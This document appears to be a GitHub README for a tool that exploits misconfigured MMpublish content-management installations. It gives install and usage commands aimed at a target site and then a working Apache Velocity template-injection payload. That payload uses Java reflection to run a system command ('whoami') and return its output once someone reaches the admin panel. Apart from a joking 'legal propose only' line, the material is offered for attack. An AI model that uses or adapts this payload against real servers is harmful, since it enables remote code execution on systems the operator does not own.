

# Description
This tool exploits misconfigured instances of MMpublish a tool made by mmcafe.com.br
Use this tool for legal propose only :P.

# Requirements

```
python3 >= python3.8
```

# Install

```
pip3 install requirements.txt
```

# Usage

```
python3 main.py -u https://target.com.br
```



# If you got access to admin panel use the Velocity payload

```
#set($x='')##
#set($rt = $x.class.forName('java.lang.Runtime'))##
#set($chr = $x.class.forName('java.lang.Character'))##
#set($str = $x.class.forName('java.lang.String'))##

#set($ex=$rt.getRuntime().exec('whoami'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach( $i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```